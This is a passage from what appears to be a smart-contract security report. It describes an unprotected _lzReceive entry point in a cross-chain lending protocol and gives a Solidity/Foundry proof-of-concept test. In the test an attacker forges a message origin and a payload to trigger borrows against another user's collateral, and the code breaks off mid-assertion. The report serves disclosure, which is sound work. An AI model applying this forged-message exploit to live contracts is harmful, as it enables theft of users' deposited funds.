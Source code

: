 The vulnerability allows attackers to:

- Execute unauthorized cross-chain borrows against any user's collateral
- Trigger fake liquidations to seize collateral
- Manipulate repayment states
- Completely bypass the intended cross-chain message verification system
- Scale attacks across all users with significant positions

### PoC

Place the following test into `TestBorrowingCrossChain.T.sol` 

```solidity
  function test_vulnerability_anyone_can_call_lzReceive_directly() public {
    // Setup: Supply some collateral first
    vm.deal(address(routerA), 1 ether);
    (address tokenA,) = _supplyA(1e18);
    _supplyB(1e18 * 2);

    // Create a malicious attacker
    address attacker = makeAddr("attacker");
    
    // Get initial token balance of deployer (who has collateral)
    address destToken = supportedTokensB[0];
    uint256 initialBalance = IERC20(destToken).balanceOf(deployer);

    // Craft malicious payload to steal a borrow against deployer's collateral
    bytes memory maliciousPayload = abi.encode(
        1e18, // amount to steal
        1e18, // borrowIndex
        1e18, // fake collateral amount
        deployer, // pretend to be deployer who has real collateral
        lendStorageB.underlyingTolToken(destToken), // destination lToken
        address(0), // liquidator
        tokenA, // source token
        uint8(0) // BorrowCrossChain contract type
    );

    // Create fake origin (no validation will happen anyway)
    Origin memory fakeOrigin = Origin({
        srcEid: CHAIN_A_ID,
        sender: bytes32(uint256(uint160(address(routerA)))),
        nonce: 1
    });

    vm.startPrank(attacker);
    
    // ❌ CRITICAL VULNERABILITY: Anyone can call _lzReceive directly!
    // This should fail but won't because there are no security checks
    routerB._lzReceive(
        fakeOrigin,
        bytes32(0), // guid
        maliciousPayload,
        address(0), // executor
        "" // extraData
    );
    
    vm.stopPrank();

    // Verify the attack succeeded - deployer received borrowed tokens
    // even though the attacker initiated the call
    uint256 finalBalance = IERC20(destToken).balanceOf(deployer);
    
    assertEq(
        finalBalance - initialBalance, 
```